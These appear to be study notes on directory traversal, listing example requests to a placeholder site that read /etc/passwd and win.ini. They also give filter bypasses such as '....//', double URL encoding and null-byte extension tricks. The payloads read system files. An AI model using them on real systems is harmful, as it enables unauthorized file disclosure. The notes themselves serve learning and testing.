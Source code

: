 # Basic

eg - original url => `https://insecure-website.com/loadImage?filename=abc.png`

- will get image from the path `/var/www/images/abc.png`

## Directory Traversal in Linux

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Directory Traversal in Windows

`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

# Common Obstacles

## 1. Blocked with absolute path bypass

- use the absolute path => `filename=/etc/passwd`

eg - `GET /image?filename=/etc/passwd`

## 2. Stripped non-recursively

- use `....//` or `....\/`

eg - `GET /image?filename=....//....//....//etc/passwd`

## 3. Stripped with superfluous URL-decode

- bypass this kind of sanitization by URL encoding, or even double URL encoding, the ../ characters, resulting in %2e%2e%2f or %252e%252e%252f respectively. Various non-standard encodings, such as ..%c0%af or ..%ef%bc%8f, may also do the trick.

eg - `GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1`

first encode the `/` and get `%2f` then encode the `%` from `%2f` and get `%252f`.

## 4. File path traversal, validation of the start of path

- sometimes app requires the user-supplied filename must start with the expected base folder, such as `/var/www/images` and the path will be `filename=/var/www/images/../../../etc/passwd`

eg - `GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1`

## 5. File path traversal, validation of file extension with null byte bypass

- sometimes, filename must end with an expected file extension such as .png, and use null byte `%00` to effectively terminate the file path before the require extension.

eg - ` filename=../../../etc/passwd%00.png`
